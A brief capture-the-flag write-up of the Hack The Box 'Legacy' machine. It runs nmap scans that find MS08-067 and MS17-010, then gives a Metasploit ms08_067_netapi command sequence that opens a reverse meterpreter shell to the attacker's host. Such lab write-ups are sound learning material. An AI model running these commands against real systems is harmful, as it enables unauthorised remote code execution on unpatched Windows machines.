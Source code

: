 ```yaml
---
description: One of the first few boxes I've done!
---
```


# Legacy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.242
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 09:20 EDT
Nmap scan report for 10.129.85.242
Host is up (0.076s latency).
Not shown: 61445 closed tcp ports (conn-refused), 4087 filtered tcp ports (no-response)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

This was an outdated machine, so there was bound to be some vulnerabilities with the SMB service. We can run some `nmap` scripts to determine this:

```
$ sudo nmap --script smb-vuln* -p 445 10.129.85.242 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 09:22 EDT
Nmap scan report for 10.129.85.242
Host is up (0.0060s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
We
Nmap done: 1 IP address (1 host up) scanned in 5.34 seconds
```

So this was vulnerable to MS08-067. We can use `msfconsole` to exploit this.&#x20;

```
use exploit/windows/smb/ms08_067_netapi
set LHOST 10.10.14.13
set RHOSTS 10.129.85.242
exploit
```

This would give us a meterpreter shell.

<figure><img src="../../../.gitbook/assets/image (86) (3).png" alt=""><figcaption></figcaption></figure>

For some reason, `whoami` does not work on the machine. We can use the `whoami.exe` binary that is within Kali at `/usr/share/windows-resources/binaries` and run it via SMB.

<figure><img src="../../../.gitbook/assets/image (81) (5).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
